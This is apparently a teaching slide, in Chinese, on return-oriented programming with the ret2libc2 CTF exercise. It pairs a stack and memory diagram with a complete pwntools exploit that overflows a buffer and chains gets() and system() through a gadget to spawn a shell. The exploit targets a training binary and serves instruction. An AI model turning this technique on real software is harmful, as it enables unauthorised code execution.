

返回导向编程 | ret2libc2
For Kernel

Heap
Data

Unused
ret_addr = gadget_addr
Stack
每次用完后将参数弹出
from pwn import *

io = process("./ret2libc2")
buf2 = 0x0804A080
system = 0x08048490
gets = 0x08048460
pop_ebx_ret = 0x0804843d

payload = flat([b'A'*112, gets, pop_ebx_ret, buf2, system, pop_ebx_ret, buf2])
io.sendline(payload)
io.sendline(b'/bin/sh\x00')
io.interactive()
Libc
system()
Bss
gadget
Text
gadget
gadget